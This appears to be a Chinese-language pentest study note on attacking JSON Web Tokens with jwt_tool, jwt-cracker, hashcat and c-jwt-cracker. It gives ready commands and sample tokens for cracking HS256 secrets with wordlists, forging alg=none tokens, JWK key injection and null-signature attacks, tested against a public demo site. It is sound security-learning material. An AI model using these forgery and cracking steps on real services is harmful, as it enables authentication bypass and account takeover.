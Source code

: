 # jwt_tool

## 一、安装

1、git clone https://github.com/ticarpi/jwt_tool

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/18449/1670652852022/e29791a7b7074335b92ad74e7f046117.png)

2pip install pycryptodomex

3、cd到安装目录

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/18449/1670652852022/f162a435a8b246d68ac270b926bbd3e3.png)

4、解密

python jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoicm9iaW4iLCJsZXZlbCI6InVzZXIifQ.oYPuxIPnm6lYx3Zx_8zaMGVw7Np5nZtgJVnaMqlZcOQ

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/18449/1670652852022/3128997abb1c45bd8008d9fc435b0c81.png)

5、爆破密钥

python jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoicm9iaW4iLCJsZXZlbCI6InVzZXIifQ.oYPuxIPnm6lYx3Zx_8zaMGVw7Np5nZtgJVnaMqlZcOQ  -C  -d jwt-common.txt

## 二、漏洞利用

**1.签名算法可被修改为none(CVE-2015-9235)**

使用jwt_too进行攻击（该工具适用于不改变原有payload的数据的基础上而没有签名算法获得的token)

python3 jwt_tool.py    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwczpcL1wvZGVtby5zam9lcmRsYW5na2VtcGVyLm5sXC8iLCJpYXQiOjE2NjI3Mzc5NjUsImV4cCI6MTY2MjczOTE2NSwiZGF0YSI6eyJoZWxsbyI6IndvcmxkIn19.LlHtXxVQkjLvW8cN_8Kb3TerEEPm2-rAfnwZ_h0pZBg  -X a

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/18449/1670652852022/1b930cde18a6412cb17e4e5b46d8faeb.png)

得到签名算法为none/NONE/None/nOnE认证的token

eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpc3MiOiJodHRwczovL2RlbW8uc2pvZXJkbGFuZ2tlbXBlci5ubC8iLCJpYXQiOjE2NjI3Mzc5NjUsImV4cCI6MTY2MjczOTE2NSwiZGF0YSI6eyJoZWxsbyI6IndvcmxkIn19.

使用得到的token 进行认证请求

[http://demo.sjoerdlangkemper.nl/jwtdemo/hs256.php](http://demo.sjoerdlangkemper.nl/jwtdemo/hs256.php)

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/18449/1670652852022/0630e771e98a4c40895a9cf290f04740.png)

**2、JWKS公钥 注入 ——伪造密钥(CVE-2018-0114)**

jwk是header里的一个参数，用于指出密钥，存在被伪造的风险。
攻击者可以通过以下方法来伪造JWT：删除原始签名，向标头添加新的公钥，然后使用与该公钥关联的私钥进行签名。

python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw      -X i

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/18449/1670652852022/f55c2e2a98f74ab68002141bc24c246a.png)

**3、空签名(CVE-2020-28042)**

从令牌末尾删除签名

python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw         -X n

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/18449/1670652852022/1b156253090643629320d9c2b9a45070.png)

# jwt-cracker

该工具仅限于单一的签名算法(HS256) ，如果提供了不同的签名算法，则无法进行操作

https://github.com/lmammino/jwt-cracker

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/18449/1670652852022/9c2bd63fcdc7408083a48cbfe18d2f0d.png)

# hashcat

***kaili自带的爆破工具、Hashcat命令：***

字典攻击： `hashcat -a 0 -m 16500 jwt.txt wordlist.txt`

# c-jwt-cracker

是暴力破解 JWT 私钥的工具。

https://github.com/brendan-rius/c-jwt-cracker

1、使用c-jwt-cracker需要我们在我们linux里安装好openssl头文件。

在linux的配置命令是：apt-get install libssl-dev

2、下载好c-jwt-cracker，还需要我么在工具所在目录执行make命令。目的是让文件makefile运行起来。编译完后会生成一个jwtcrack文件。

make报错解决：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/18449/1670652852022/ffb48ef356db4fe18b126a3a5191d398.png)